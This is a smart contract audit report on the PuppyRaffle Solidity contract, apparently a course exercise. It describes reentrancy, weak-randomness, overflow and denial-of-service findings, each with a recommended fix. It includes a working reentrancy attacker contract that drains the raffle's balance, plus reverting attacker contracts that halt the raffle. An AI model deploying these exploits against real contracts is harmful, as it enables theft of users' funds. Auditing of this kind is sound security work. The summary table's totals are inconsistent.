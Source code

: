 ```yaml
---
title: Puppy Raffle Audit Report
author: Md Sumon
date: January 26, 2025
header-includes:
  - \usepackage{titling}
  - \usepackage{graphicx}
---
```


\begin{titlepage}
\centering
\begin{figure}[h]
\centering
\includegraphics[width=0.5\textwidth]{logo.pdf}
\end{figure}
\vspace{2cm}
{\Huge\bfseries Puppy Raffle Initial Audit Report\par}
\vspace{1cm}
{\Large Version 0.1\par}
\vspace{2cm}
{\Large\itshape Cyfrin.io\par}
\vfill
{\large \today\par}
\end{titlepage}

\maketitle

# Puppy Raffle Audit Report

Prepared by: Md Sumon
Lead Auditors:

- Md Sumon

Assisting Auditors:

- None

# Table of contents

<details>

<summary>See table</summary>

- [Puppy Raffle Audit Report](#puppy-raffle-audit-report)
- [Table of contents](#table-of-contents)
- [About Md Sumon](#about-md-sumon)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
- [Protocol Summary](#protocol-summary)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High](#high)
    - [\[H-1\] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain contract balance](#h-1-reentrancy-attack-in-puppyrafflerefund-allows-entrant-to-drain-contract-balance)
    - [\[H-2\] Weak randomness in `PuppyRaffle::selectWinner` allows anyone to choose winner](#h-2-weak-randomness-in-puppyraffleselectwinner-allows-anyone-to-choose-winner)
    - [\[H-3\] Integer overflow of `PuppyRaffle::totalFees` loses fees](#h-3-integer-overflow-of-puppyraffletotalfees-loses-fees)
    - [\[H-4\] Malicious winner can forever halt the raffle](#h-4-malicious-winner-can-forever-halt-the-raffle)
  - [Medium](#medium)
    - [\[M-1\] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential DoS vector, incrementing gas costs for future entrants](#m-1-looping-through-players-array-to-check-for-duplicates-in-puppyraffleenterraffle-is-a-potential-dos-vector-incrementing-gas-costs-for-future-entrants)
    - [\[M-2\] Balance check on `PuppyRaffle::withdrawFees` enables griefers to selfdestruct a contract to send ETH to the raffle, blocking withdrawals](#m-2-balance-check-on-puppyrafflewithdrawfees-enables-griefers-to-selfdestruct-a-contract-to-send-eth-to-the-raffle-blocking-withdrawals)
    - [\[M-3\] Unsafe cast of `PuppyRaffle::fee` loses fees](#m-3-unsafe-cast-of-puppyrafflefee-loses-fees)
    - [\[M-4\] Smart Contract wallet raffle winners without a `receive` or a `fallback` will block the start of a new contest](#m-4-smart-contract-wallet-raffle-winners-without-a-receive-or-a-fallback-will-block-the-start-of-a-new-contest)
  - [Informational / Non-Critical](#informational--non-critical)
    - [\[I-1\] Floating pragmas](#i-1-floating-pragmas)
    - [\[I-2\] Magic Numbers](#i-2-magic-numbers)
    - [\[I-3\] Test Coverage](#i-3-test-coverage)
    - [\[I-4\] Zero address validation](#i-4-zero-address-validation)
    - [\[I-5\] \_isActivePlayer is never used and should be removed](#i-5-_isactiveplayer-is-never-used-and-should-be-removed)
    - [\[I-6\] Unchanged variables should be constant or immutable](#i-6-unchanged-variables-should-be-constant-or-immutable)
    - [\[I-7\] Potentially erroneous active player index](#i-7-potentially-erroneous-active-player-index)
    - [\[I-8\] Zero address may be erroneously considered an active player](#i-8-zero-address-may-be-erroneously-considered-an-active-player)
  - [Gas (Optional)](#gas-optional)

# About Md Sumon

<!-- Tell people about you! -->

# Disclaimer

The Md Sumon makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

# Audit Details

**The findings described in this document correspond the following commit hash:**

```
c3112e309c3457b410046fbbdb1cb1982a791367
```

## Scope

```
./src/
-- PuppyRaffle.sol
```

# Protocol Summary

Puppy Rafle is a protocol dedicated to raffling off puppy NFTs with variying rarities. A portion of entrance fees go to the winner, and a fee is taken by another address decided by the protocol owner.

## Roles

- Owner: The only one who can change the `feeAddress`, denominated by the `_owner` variable.
- Fee User: The user who takes a cut of raffle entrance fees. Denominated by the `feeAddress` variable.
- Raffle Entrant: Anyone who enters the raffle. Denominated by being in the `players` array.

# Executive Summary

## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 4                      |
| Medium   | 3                      |
| Low      | 0                      |
| Info     | 8                      |
| Total    | 0                      |

# Findings

## High

### [H-1] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain contract balance

**Description:** The `PuppyRaffle::refund` function does not follow [CEI/FREI-PI](https://www.nascent.xyz/idea/youre-writing-require-statements-wrong) and as a result, enables participants to drain the contract balance.

In the `PuppyRaffle::refund` function, we first make an external call to the `msg.sender` address, and only after making that external call, we update the `players` array.

```javascript
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>  payable(msg.sender).sendValue(entranceFee);

@>  players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

A player who has entered the raffle could have a `fallback`/`receive` function that calls the `PuppyRaffle::refund` function again and claim another refund. They could continue to cycle this until the contract balance is drained.

**Impact:** All fees paid by raffle entrants could be stolen by the malicious participant.

**Proof of Concept:**

1. Users enters the raffle.
2. Attacker sets up a contract with a `fallback` function that calls `PuppyRaffle::refund`.
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from their contract, draining the contract balance.

**Proof of Code:**

<details>
<summary>Code</summary>
Add the following code to the `PuppyRaffleTest.t.sol` file.

```javascript
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(address _puppyRaffle) {
        puppyRaffle = PuppyRaffle(_puppyRaffle);
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    fallback() external payable {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}

function testReentrance() public playersEntered {
    ReentrancyAttacker attacker = new ReentrancyAttacker(address(puppyRaffle));
    vm.deal(address(attacker), 1e18);
    uint256 startingAttackerBalance = address(attacker).balance;
    uint256 startingContractBalance = address(puppyRaffle).balance;

    attacker.attack();

    uint256 endingAttackerBalance = address(attacker).balance;
    uint256 endingContractBalance = address(puppyRaffle).balance;
    assertEq(endingAttackerBalance, startingAttackerBalance + startingContractBalance);
    assertEq(endingContractBalance, 0);
}
```

</details>

**Recommended Mitigation:** To fix this, we should have the `PuppyRaffle::refund` function update the `players` array before making the external call. Additionally, we should move the event emission up as well.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);
        (bool success,) = msg.sender.call{value: entranceFee}("");
        require(success, "PuppyRaffle: Failed to refund player");
-        players[playerIndex] = address(0);
-        emit RaffleRefunded(playerAddress);
    }
```

### [H-2] Weak randomness in `PuppyRaffle::selectWinner` allows anyone to choose winner

**Description:** Hashing `msg.sender`, `block.timestamp`, `block.difficulty` together creates a predictable final number. A predictable number is not a good random number. Malicious users can manipulate these values or know them ahead of time to choose the winner of the raffle themselves.

**Impact:** Any user can choose the winner of the raffle, winning the money and selecting the "rarest" puppy, essentially making it such that all puppies have the same rarity, since you can choose the puppy.

**Proof of Concept:**

There are a few attack vectors here.

1. Validators can know ahead of time the `block.timestamp` and `block.difficulty` and use that knowledge to predict when / how to participate. See the [solidity blog on prevrando](https://soliditydeveloper.com/prevrandao) here. `block.difficulty` was recently replaced with `prevrandao`.
2. Users can manipulate the `msg.sender` value to result in their index being the winner.

Using on-chain values as a randomness seed is a [well-known attack vector](https://betterprogramming.pub/how-to-generate-truly-random-numbers-in-solidity-and-blockchain-9ced6472dbdf) in the blockchain space.

**Recommended Mitigation:** Consider using an oracle for your randomness like [Chainlink VRF](https://docs.chain.link/vrf/v2/introduction).

### [H-3] Integer overflow of `PuppyRaffle::totalFees` loses fees

**Description:** In Solidity versions prior to `0.8.0`, integers were subject to integer overflows.

```javascript
uint64 myVar = type(uint64).max;
// myVar will be 18446744073709551615
myVar = myVar + 1;
// myVar will be 0
```

**Impact:** In `PuppyRaffle::selectWinner`, `totalFees` are accumulated for the `feeAddress` to collect later in `withdrawFees`. However, if the `totalFees` variable overflows, the `feeAddress` may not collect the correct amount of fees, leaving fees permanently stuck in the contract.

**Proof of Concept:**

1. We first conclude a raffle of 4 players to collect some fees.
2. We then have 89 additional players enter a new raffle, and we conclude that raffle as well.
3. `totalFees` will be:

```javascript
totalFees = totalFees + uint64(fee);
// substituted
totalFees = 800000000000000000 + 17800000000000000000;
// due to overflow, the following is now the case
totalFees = 153255926290448384;
```

4. You will now not be able to withdraw, due to this line in `PuppyRaffle::withdrawFees`:

```javascript
require(address(this).balance ==
  uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

Although you could use `selfdestruct` to send ETH to this contract in order for the values to match and withdraw the fees, this is clearly not what the protocol is intended to do.

<details>
<summary>Proof Of Code</summary>
Place this into the `PuppyRaffleTest.t.sol` file.

```javascript
function testTotalFeesOverflow() public playersEntered {
        // We finish a raffle of 4 to collect some fees
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        uint256 startingTotalFees = puppyRaffle.totalFees();
        // startingTotalFees = 800000000000000000

        // We then have 89 players enter a new raffle
        uint256 playersNum = 89;
        address[] memory players = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
        // We end the raffle
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        // And here is where the issue occurs
        // We will now have fewer fees even though we just finished a second raffle
        puppyRaffle.selectWinner();

        uint256 endingTotalFees = puppyRaffle.totalFees();
        console.log("ending total fees", endingTotalFees);
        assert(endingTotalFees < startingTotalFees);

        // We are also unable to withdraw any fees because of the require check
        vm.prank(puppyRaffle.feeAddress());
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
    }
```

</details>

**Recommended Mitigation:** There are a few recommended mitigations here.

1. Use a newer version of Solidity that does not allow integer overflows by default.

```diff
- pragma solidity ^0.7.6;
+ pragma solidity ^0.8.18;
```

Alternatively, if you want to use an older version of Solidity, you can use a library like OpenZeppelin's `SafeMath` to prevent integer overflows.

2. Use a `uint256` instead of a `uint64` for `totalFees`.

```diff
- uint64 public totalFees = 0;
+ uint256 public totalFees = 0;
```

3. Remove the balance check in `PuppyRaffle::withdrawFees`

```diff
- require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

We additionally want to bring your attention to another attack vector as a result of this line in a future finding.

### [H-4] Malicious winner can forever halt the raffle

<!-- TODO: This is not accurate, but there are some issues. This is likely a low. Users who don't have a fallback can't get their money and the TX will fail. -->

**Description:** Once the winner is chosen, the `selectWinner` function sends the prize to the the corresponding address with an external call to the winner account.

```javascript
(bool success,) = winner.call{value: prizePool}("");
require(success, "PuppyRaffle: Failed to send prize pool to winner");
```

If the `winner` account were a smart contract that did not implement a payable `fallback` or `receive` function, or these functions were included but reverted, the external call above would fail, and execution of the `selectWinner` function would halt. Therefore, the prize would never be distributed and the raffle would never be able to start a new round.

There's another attack vector that can be used to halt the raffle, leveraging the fact that the `selectWinner` function mints an NFT to the winner using the `_safeMint` function. This function, inherited from the `ERC721` contract, attempts to call the `onERC721Received` hook on the receiver if it is a smart contract. Reverting when the contract does not implement such function.

Therefore, an attacker can register a smart contract in the raffle that does not implement the `onERC721Received` hook expected. This will prevent minting the NFT and will revert the call to `selectWinner`.

**Impact:** In either case, because it'd be impossible to distribute the prize and start a new round, the raffle would be halted forever.

**Proof of Concept:**

<details>
<summary>Proof Of Code</summary>
Place the following test into `PuppyRaffleTest.t.sol`.

```javascript
function testSelectWinnerDoS() public {
    vm.warp(block.timestamp + duration + 1);
    vm.roll(block.number + 1);

    address[] memory players = new address[](4);
    players[0] = address(new AttackerContract());
    players[1] = address(new AttackerContract());
    players[2] = address(new AttackerContract());
    players[3] = address(new AttackerContract());
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    vm.expectRevert();
    puppyRaffle.selectWinner();
}
```

For example, the `AttackerContract` can be this:

```javascript
contract AttackerContract {
    // Implements a `receive` function that always reverts
    receive() external payable {
        revert();
    }
}
```

Or this:

```javascript
contract AttackerContract {
    // Implements a `receive` function to receive prize, but does not implement `onERC721Received` hook to receive the NFT.
    receive() external payable {}
}
```

</details>

**Recommended Mitigation:** Favor pull-payments over push-payments. This means modifying the `selectWinner` function so that the winner account has to claim the prize by calling a function, instead of having the contract automatically send the funds during execution of `selectWinner`.

## Medium

### [M-1] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential DoS vector, incrementing gas costs for future entrants

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle:players` array is, the more checks a new player will have to make. This means that the gas costs for players who enter right when the raffle starts will be dramatically lower than those who enter later. Every additional address in the `players` array, is an additional check the loop will have to make.

**Note to students: This next line would likely be it's own finding itself. However, we haven't taught you about MEV yet, so we are going to ignore it.**
Additionally, this increased gas cost creates front-running opportunities where malicious users can front-run another raffle entrant's transaction, increasing its costs, so their enter transaction fails.

**Impact:** The impact is two-fold.

1. The gas costs for raffle entrants will greatly increase as more players enter the raffle.
2. Front-running opportunities are created for malicious users to increase the gas costs of other users, so their transaction fails.

**Proof of Concept:**

If we have 2 sets of 100 players enter, the gas costs will be as such:

- 1st 100 players: 6252039
- 2nd 100 players: 18067741

This is more than 3x as expensive for the second set of 100 players!

This is due to the for loop in the `PuppyRaffle::enterRaffle` function.

```javascript
        // Check for duplicates
@>      for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
```

<details>
<summary>Proof Of Code</summary>
Place the following test into `PuppyRaffleTest.t.sol`.

```javascript
function testReadDuplicateGasCosts() public {
        vm.txGasPrice(1);

        // We will enter 5 players into the raffle
        uint256 playersNum = 100;
        address[] memory players = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }
        // And see how much gas it cost to enter
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
        uint256 gasEnd = gasleft();
        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas cost of the 1st 100 players:", gasUsedFirst);

        // We will enter 5 more players into the raffle
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i + playersNum);
        }
        // And see how much more expensive it is
        gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
        gasEnd = gasleft();
        uint256 gasUsedSecond = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas cost of the 2nd 100 players:", gasUsedSecond);

        assert(gasUsedFirst < gasUsedSecond);
        // Logs:
        //     Gas cost of the 1st 100 players: 6252039
        //     Gas cost of the 2nd 100 players: 18067741
}
```

</details>

**Recommended Mitigation:** There are a few recommended mitigations.

1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address.
2. Consider using a mapping to check duplicates. This would allow you to check for duplicates in constant time, rather than linear time. You could have each raffle have a `uint256` id, and the mapping would be a player address mapped to the raffle Id.

```diff
+    mapping(address => uint256) public addressToRaffleId;
+    uint256 public raffleId = 0;
    .
    .
    .
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
+            addressToRaffleId[newPlayers[i]] = raffleId;
        }

-        // Check for duplicates
+       // Check for duplicates only from the new players
+       for (uint256 i = 0; i < newPlayers.length; i++) {
+          require(addressToRaffleId[newPlayers[i]] != raffleId, "PuppyRaffle: Duplicate player");
+       }
-        for (uint256 i = 0; i < players.length; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
-                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-            }
-        }
        emit RaffleEnter(newPlayers);
    }
.
.
.
    function selectWinner() external {
+       raffleId = raffleId + 1;
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
```

Alternatively, you could use [OpenZeppelin's `EnumerableSet` library](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet).

### [M-2] Balance check on `PuppyRaffle::withdrawFees` enables griefers to selfdestruct a contract to send ETH to the raffle, blocking withdrawals

**Description:** The `PuppyRaffle::withdrawFees` function checks the `totalFees` equals the ETH balance of the contract (`address(this).balance`). Since this contract doesn't have a `payable` fallback or `receive` function, you'd think this wouldn't be possible, but a user could `selfdesctruct` a contract with ETH in it and force funds to the `PuppyRaffle` contract, breaking this check.

```javascript
    function withdrawFees() external {
@>      require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success,) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }
```

**Impact:** This would prevent the `feeAddress` from withdrawing fees. A malicious user could see a `withdrawFee` transaction in the mempool, front-run it, and block the withdrawal by sending fees.

**Proof of Concept:**

1. `PuppyRaffle` has 800 wei in it's balance, and 800 totalFees.
2. Malicious user sends 1 wei via a `selfdestruct`
3. `feeAddress` is no longer able to withdraw funds

**Recommended Mitigation:** Remove the balance check on the `PuppyRaffle::withdrawFees` function.

```diff
    function withdrawFees() external {
-       require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success,) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }
```

### [M-3] Unsafe cast of `PuppyRaffle::fee` loses fees

**Description:** In `PuppyRaffle::selectWinner` their is a type cast of a `uint256` to a `uint64`. This is an unsafe cast, and if the `uint256` is larger than `type(uint64).max`, the value will be truncated.

```javascript
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length > 0, "PuppyRaffle: No players in raffle");

        uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 fee = totalFees / 10;
        uint256 winnings = address(this).balance - fee;
@>      totalFees = totalFees + uint64(fee);
        players = new address[](0);
        emit RaffleWinner(winner, winnings);
    }
```

The max value of a `uint64` is `18446744073709551615`. In terms of ETH, this is only ~`18` ETH. Meaning, if more than 18ETH of fees are collected, the `fee` casting will truncate the value.

**Impact:** This means the `feeAddress` will not collect the correct amount of fees, leaving fees permanently stuck in the contract.

**Proof of Concept:**

1. A raffle proceeds with a little more than 18 ETH worth of fees collected
2. The line that casts the `fee` as a `uint64` hits
3. `totalFees` is incorrectly updated with a lower amount

You can replicate this in foundry's chisel by running the following:

```javascript
uint256 max = type(uint64).max
uint256 fee = max + 1
uint64(fee)
// prints 0
```

**Recommended Mitigation:** Set `PuppyRaffle::totalFees` to a `uint256` instead of a `uint64`, and remove the casting. Their is a comment which says:

```javascript
// We do some storage packing to save gas
```

But the potential gas saved isn't worth it if we have to recast and this bug exists.

```diff
-   uint64 public totalFees = 0;
+   uint256 public totalFees = 0;
.
.
.
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        uint256 winnerIndex =
            uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
-       totalFees = totalFees + uint64(fee);
+       totalFees = totalFees + fee;
```

### [M-4] Smart Contract wallet raffle winners without a `receive` or a `fallback` will block the start of a new contest

**Description:** The `PuppyRaffle::selectWinner` function is responsible for resetting the lottery. However, if the winner is a smart contract wallet that rejects payment, the lottery would not be able to restart.

Non-smart contract wallet users could reenter, but it might cost them a lot of gas due to the duplicate check.

**Impact:** The `PuppyRaffle::selectWinner` function could revert many times, and make it very difficult to reset the lottery, preventing a new one from starting.

Also, true winners would not be able to get paid out, and someone else would win their money!

**Proof of Concept:**

1. 10 smart contract wallets enter the lottery without a fallback or receive function.
2. The lottery ends
3. The `selectWinner` function wouldn't work, even though the lottery is over!

**Recommended Mitigation:** There are a few options to mitigate this issue.

1. Do not allow smart contract wallet entrants (not recommended)
2. Create a mapping of addresses -> payout so winners can pull their funds out themselves, putting the owness on the winner to claim their prize. (Recommended)

## Informational / Non-Critical

### [I-1] Floating pragmas

**Description:** Contracts should use strict versions of solidity. Locking the version ensures that contracts are not deployed with a different version of solidity than they were tested with. An incorrect version could lead to uninteded results.

https://swcregistry.io/docs/SWC-103/

**Recommended Mitigation:** Lock up pragma versions.

```diff
- pragma solidity ^0.7.6;
+ pragma solidity 0.7.6;
```

### [I-2] Magic Numbers

**Description:** All number literals should be replaced with constants. This makes the code more readable and easier to maintain. Numbers without context are called "magic numbers".

**Recommended Mitigation:** Replace all magic numbers with constants.

```diff
+       uint256 public constant PRIZE_POOL_PERCENTAGE = 80;
+       uint256 public constant FEE_PERCENTAGE = 20;
+       uint256 public constant TOTAL_PERCENTAGE = 100;
.
.
.
-        uint256 prizePool = (totalAmountCollected * 80) / 100;
-        uint256 fee = (totalAmountCollected * 20) / 100;
         uint256 prizePool = (totalAmountCollected * PRIZE_POOL_PERCENTAGE) / TOTAL_PERCENTAGE;
         uint256 fee = (totalAmountCollected * FEE_PERCENTAGE) / TOTAL_PERCENTAGE;
```

### [I-3] Test Coverage

**Description:** The test coverage of the tests are below 90%. This often means that there are parts of the code that are not tested.

```
| File                               | % Lines        | % Statements   | % Branches     | % Funcs       |
| ---------------------------------- | -------------- | -------------- | -------------- | ------------- |
| script/DeployPuppyRaffle.sol       | 0.00% (0/3)    | 0.00% (0/4)    | 100.00% (0/0)  | 0.00% (0/1)   |
| src/PuppyRaffle.sol                | 82.46% (47/57) | 83.75% (67/80) | 66.67% (20/30) | 77.78% (7/9)  |
| test/auditTests/ProofOfCodes.t.sol | 100.00% (7/7)  | 100.00% (8/8)  | 50.00% (1/2)   | 100.00% (2/2) |
| Total                              | 80.60% (54/67) | 81.52% (75/92) | 65.62% (21/32) | 75.00% (9/12) |
```

**Recommended Mitigation:** Increase test coverage to 90% or higher, especially for the `Branches` column.

### [I-4] Zero address validation

**Description:** The `PuppyRaffle` contract does not validate that the `feeAddress` is not the zero address. This means that the `feeAddress` could be set to the zero address, and fees would be lost.

```
PuppyRaffle.constructor(uint256,address,uint256)._feeAddress (src/PuppyRaffle.sol#57) lacks a zero-check on :
                - feeAddress = _feeAddress (src/PuppyRaffle.sol#59)
PuppyRaffle.changeFeeAddress(address).newFeeAddress (src/PuppyRaffle.sol#165) lacks a zero-check on :
                - feeAddress = newFeeAddress (src/PuppyRaffle.sol#166)
```

**Recommended Mitigation:** Add a zero address check whenever the `feeAddress` is updated.

### [I-5] \_isActivePlayer is never used and should be removed

**Description:** The function `PuppyRaffle::_isActivePlayer` is never used and should be removed.

```diff
-    function _isActivePlayer() internal view returns (bool) {
-        for (uint256 i = 0; i < players.length; i++) {
-            if (players[i] == msg.sender) {
-                return true;
-            }
-        }
-        return false;
-    }
```

### [I-6] Unchanged variables should be constant or immutable

Constant Instances:

```
PuppyRaffle.commonImageUri (src/PuppyRaffle.sol#35) should be constant
PuppyRaffle.legendaryImageUri (src/PuppyRaffle.sol#45) should be constant
PuppyRaffle.rareImageUri (src/PuppyRaffle.sol#40) should be constant
```

Immutable Instances:

```
PuppyRaffle.raffleDuration (src/PuppyRaffle.sol#21) should be immutable
```

### [I-7] Potentially erroneous active player index

**Description:** The `getActivePlayerIndex` function is intended to return zero when the given address is not active. However, it could also return zero for an active address stored in the first slot of the `players` array. This may cause confusions for users querying the function to obtain the index of an active player.

**Recommended Mitigation:** Return 2\*\*256-1 (or any other sufficiently high number) to signal that the given player is inactive, so as to avoid collision with indices of active players.

### [I-8] Zero address may be erroneously considered an active player

**Description:** The `refund` function removes active players from the `players` array by setting the corresponding slots to zero. This is confirmed by its documentation, stating that "This function will allow there to be blank spots in the array". However, this is not taken into account by the `getActivePlayerIndex` function. If someone calls `getActivePlayerIndex` passing the zero address after there's been a refund, the function will consider the zero address an active player, and return its index in the `players` array.

**Recommended Mitigation:** Skip zero addresses when iterating the `players` array in the `getActivePlayerIndex`. Do note that this change would mean that the zero address can _never_ be an active player. Therefore, it would be best if you also prevented the zero address from being registered as a valid player in the `enterRaffle` function.

## Gas (Optional)

// TODO

- `getActivePlayerIndex` returning 0. Is it the player at index 0? Or is it invalid.

- MEV with the refund function.
- MEV with withdrawfees

- randomness for rarity issue

- reentrancy puppy raffle before safemint (it looks ok actually, potentially informational)
